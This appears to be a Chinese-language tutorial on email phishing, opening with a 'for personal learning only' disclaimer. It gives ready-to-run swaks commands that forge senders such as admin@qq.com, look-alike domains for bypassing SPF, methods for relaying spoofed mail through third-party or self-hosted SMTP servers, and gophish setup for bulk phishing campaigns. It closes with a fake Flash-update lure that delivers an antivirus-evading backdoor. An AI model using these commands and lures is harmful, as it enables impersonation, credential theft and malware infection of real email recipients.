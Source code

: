 声明：以下内容仅供个人学习测试

邮件钓鱼-无SPF-直接伪造发信人
邮件钓鱼-有SPF-伪造无SPF的域名
邮件钓鱼-有SPF-三方中转伪造发信人
邮件钓鱼-有SPF-自建中转伪造发信人
邮件钓鱼-平台框架gophish程序-优化内容&收信&页面


## **无SPF发送人伪造**
邮箱域名检测
如果自建域名邮箱，可能没有SPF，此时可以kali一键伪装发件人的自建邮箱域名。
检测是否有SPF：
```
//linux
dig -t txt qq.com 
//windows
nslookup -type=txt qq.com 
```
响应：
```
"v=spf1 -all" （拒绝所有，表示这个域名不会发出邮件）

"v=spf1 +all" （接受所有）

"v=spf1 ip4:192.168.0.1/16 -all"（只允许 192.168.0.1/16 范围内的 IP发送邮件）
```
kali直接自定义发件人发送
```
swaks --header-X-Mailer "" --header-Message-Id ""
--header- "Content-Type"="text/html" 
--from "我是QQ<admin@qq.com>" 
--ehlo shabimeiguo -header "Subject：测试" 
--body 我们做了一个测试 
--to mubiao@027168.com
```
## **有SPF，修改邮箱字眼，造成无SPF**
如：
阿里官方system@notice.aliyun.com
那就仿造system@notice.aliyun.com.cn
system@notice.a1iyun.com
```
swaks --body "test" \
--header "Subject:这是标题" \
-t 3312902243@qq.com \
-f newsletter1@1jd.com.cn \
```

## **第三方邮箱系统中转伪造发信**
如qq邮箱，网易邮箱，都可以开启POP3/SMTP服务。
获取服务地址和密钥
自定义.eml文件(修改时间，发送人地址等)放入kali
使用swaks调用发送邮箱
```
1、将要发送的邮件导出 EML 模版
2、修改内置的发件人内容时间等
swaks --to 收信人 -f 发信人 --data 1.eml --server smtp.163.com -p
25 -au 帐号 -ap 授权码
```
接收方收到的邮箱，会提示由xx@163.com代发。

## **自建邮箱系统中转伪造发信**
使用第三方平台
设置 SPF，中转平台突破
1、smtp2go（速度慢但免费发送量大）
2、SendCloud（速度快但免费发送量少）
注册获取服务端，即可获得邮箱系统。
可自定义发送人邮箱地址，但会提示由以上转发。

3、当然也可以自己搭建邮件服务器-Ewomail&Postfix。防止邮箱被封且域名自定义。
https://www.smtp2go.com/
https://www.sendcloud.net/
http://www.ewomail.com/




## **平台框架gophish程序**
含有各种钓鱼模板
下载部署：<https://github.com/gophish/gophish/releases>
发送平台gophish，钓鱼平台。邮件源码中找到他的gophish服务器ip，https://:3333，尝试弱口令登录后台进行反制。
程序有exe，启动即可监听3333端口。
配置smtp账号密钥，不要使用网易的容易被封（接收方显示这个邮箱为转发人）。

配置发件接口（自定义）
配置发信模版（复制eml代码转成html页面，更逼真）
配置触发页面（钓鱼用）
配置收信人地址止（批量套）


## **钓鱼思路**
如：发送一个邮件内容gif动态图片动画视频flash格式动画动画制作本身就播放不了为了诱惑性在动画提示需要更新flash对方点击动画来到了钓鱼页面（官方的flash网站）下载更新文件（免杀后门）。